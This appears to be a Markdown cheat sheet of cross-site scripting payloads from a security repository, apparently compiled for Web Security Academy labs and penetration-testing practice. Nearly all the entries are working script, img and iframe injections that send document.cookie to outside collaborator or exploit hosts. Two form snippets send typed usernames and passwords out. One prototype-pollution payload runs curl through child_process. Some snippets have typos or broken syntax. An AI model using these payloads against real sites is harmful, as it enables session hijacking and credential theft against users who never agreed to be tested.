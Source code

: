 
# CookieStealer XSS Payloads  

>Steal cookies collaborator:  

```html
<script>
fetch(`https://burpcollaborator.net`, {method: ‘POST’,mode: ‘no-cors’,body:document.cookie});
</script>
```  

>Steal Cookies Exploit Server:  

```html
<script>
fetch(`https://collaborator.net/x`+document.cookie);
</script>
```  

>XSS Cookie Stealer payloads using JavaScript

```Javascript
JavaScript:document.location='https://COLLABORATOR.com?c='+document.cookie
```  

>Reflected XSS into HTML context with nothing encoded in search.  

```JavaScript
<script>document.location='https://COLLABORATOR.com?c='+document.cookie</script>
```  

>Reflected DOM XSS, into JSON data that is processed by **eval().**  

```JavaScript
\"-fetch('https://Collaborator.com?cs='+btoa(document.cookie))}//
```  

>JavaScript Template literals are enclosed by backtick ( \` ) characters instead of double or single quotes.  

```JavaScript
${document.location='https://tvsw9dim0doynnpscx9mgtq67xdo1jp8.oastify.com/?cookies='+document.cookie;}
```  

![JavaScript template string](../images/javascript-template-string.png)  

>AngularJS DOM XSS Attack **constructor** payloads  

```JavaScript
{{$on.constructor('alert(1)')()}}
```

```JavaScript
{{$on.constructor('document.location="https://COLLABORATOR.com?c="+document.cookie')()}}
```  
  
>HTTP request smuggling to deliver reflected XSS  

```JavaScript
a"/><script>document.location='https://bc.oastify.com/cookiestealer.php?c='+document.cookie;</script>
```  

>Web Cache Parameter cloaking - script ```/js/geolocate.js```, executing the callback function ```setCountryCookie()```  
  
```JavaScript
GET /js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=document.location='http://BURPCOL.oastify.com/?StealCookies=' document.cookie ;//
```  

>More Cross-Site Scripting (XSS) example cookie stealer payloads.  

```JavaScript
<script>
document.location='https://Collaborator.com/?cookiestealer='+document.cookie;
</script>
```

>HTML <img> Tag, with invalid Image source, with escape sequence from source code calling ```window.location``` for the **LastViewedProduct``` cookie.  

```html
&'><img src=1 onerror=print()>
```  

```html
&'><img src=x onerror=this.src="https://exploit-0a6b000b033762e6c0fa121d01fc0020.exploit-server.net/?ex="+document.cookie>
```  

```Javascript
<img src=x onerror=this.src=https://exploit.net/?'+document.cookie;>
```  

>***Document.location*** returns a Location object, which contains information about the URL of the document and provides methods for changing that URL and loading another URL.  

```JavaScript
document.location='https://burp-collab.x.com/cookiestealer.php?c='+document.cookie;
```  

```Javascript
document.location='https://BurpCollaBoRaTor.oastify.com/?FreeCookies='+document.cookie;
```

>Document.write  

```Javascript
/?evil='/><script>document.write('<img src="https://exploit.com/steal.MY?cookie=' document.cookie '" />')</script> 
```  


```Javascript
<script>
    document.location=""http://stock.lab.web-security-academy.net/?productId=4
            <script>
                    var req = new XMLHttpRequest(); 
                    req.onload = reqListener; 
                    req.open('get','https://lab.web-security-academy.net/accountDetails',true); 
                    req.withCredentials = true;
                    req.send();
                    function reqListener() {
                            location='https://exploit.web-security-academy.net/log?key='%2bthis.responseText;
                    };
            %3c/script>
            &storeId=1""
</script>
```

```Javascript
<script>
fetch(‘https://burpcollaborator.net’, {method: ‘POST’,mode: ‘no-cors’,body:document.cookie});
</script>
```

```Javascript
<script>
  fetch('https://COLLABORATOR.com', {
  method: 'POST',
  mode: 'no-cors',
  body:'PeanutButterCookies='+document.cookie
  }); 
</script>   
```

```Javascript
x"); var fuzzer=new Image;fuzzer.src="https://COLLABORATOR.com/?"+document.cookie; //
```

```Javascript
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>  
```

>OSCP Offsec PWK hand book cookie stealer example  

```Javascript
<script>new Image().src="http://Collaborator.COM/cool.jpg?output="+document.cookie;</script>
```

>Alt Cookie Stealer  

```Javascript
?productId=1&storeId="></select><img src=x onerror=this.src='http://exploit.bad/?'+document.cookie;>
```

```Javascript
<script>
document.write('<img src="http://exploit.net?cookieStealer='+document.cookie+'" />');
</script>
```

```Javascript
<script>
fetch('https://BURP-COLLABORATOR', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

>::::  Steal Password / Cookie Stealer ::::

>XMLHttpRequest

```html
<input name=username id=username>
<input type=password name=password id=password onhcange="CaptureFunction()">
<script>
function CaptureFunction()
{
var user = document.getElementById('username').value;
var pass = document.getElementById('password').value;
var xhr = new XMLHttpRequest();
xhr.open("GET", "https://exploit.com/?username=" + user + "&password=" + pass, true);
xhr.send();
}
</script>
```

>FETCH API

```Javascript
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```


>::::  DATA EXFILTRATION  /  COOKIE STEALER  ::::
```Javascript
  </textarea><script>fetch('http://exploit.evil?cookie=' + btoa(document.cookie) );</script> 
```

```Javascript
<script>document.write('<img src="http://evil.net/submitcookie.php?cookie=' + escape(document.cookie) + '" />');</script>
```

```Javascript
<script>
document.write('<img src="HTTPS://EXPLOIT.net/?c='+document.cookie+'" />');
</script>
```

```Javascript
<script>document.write('<img src="https://EXPLOIT.net/?c='%2bdocument.cookie%2b'" />');</script>
```  

>IFRAMEs

```JavaScript
<iframe src=https://TARGET.net/ onload='this.contentWindow.postMessage(JSON.stringify({
    "type": "load-channel",
    "url": "JavaScript:document.location='https://COLLABORATOR.com?c='+document.cookie"
}), "*");'>
```  

>Javascript set test cookie in current browser session with no HttpOnly flag to allow proof of concept cookie stealer.  

```
document.cookie = "TopSecretCookie=HackThePlanetWithPeanutButter";
```

>Prompt Validation payload, does not steal cookie or send it to exploit server.  

```html
<img src=x onerror=prompt(1)>
```  

>Remote code execution via server-side prototype pollution  

```
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
    ]
}
```  
>Custom tag
```
<script>
document.location="https://TARGET.net/?search=%27%22%27/%3E%3Cxss%20autofocus%20tabindex=1%20onfocusin=alert(document.cookie)%3E%3C/xss%3E";
</script>
```

